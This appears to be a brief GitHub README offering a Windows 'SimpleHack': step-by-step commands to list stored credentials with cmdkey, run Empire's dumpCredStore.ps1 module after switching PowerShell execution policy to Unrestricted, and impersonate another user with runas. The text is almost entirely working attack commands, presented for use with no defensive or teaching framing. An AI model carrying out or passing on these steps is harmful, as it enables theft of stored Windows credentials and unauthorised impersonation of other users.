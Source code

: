 # waszup
AsmWebScan

This simple bypass of Windows creds inspired me to start building next-level "SimpleHacks"

You already know your way to the command prompt in Windows...

At the command prompt run this command:

cmdkey /list

Next, pull a copy of good old Empire's dumpCredStore.ps1

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1

Dont waste time and free yourself of any restrictions:

powershell Set-ExecutionPolicy -Scope CurrentUser Unrestricted

Now, run this command at the prompt:

powershell Import-module <Path to dumpCredStore.ps1> ; Enum-Creds

And, have fun with runas - which is used to run tools or commands with "different privileges" aka impersonating another users

runas /user:shalom cmd.exe

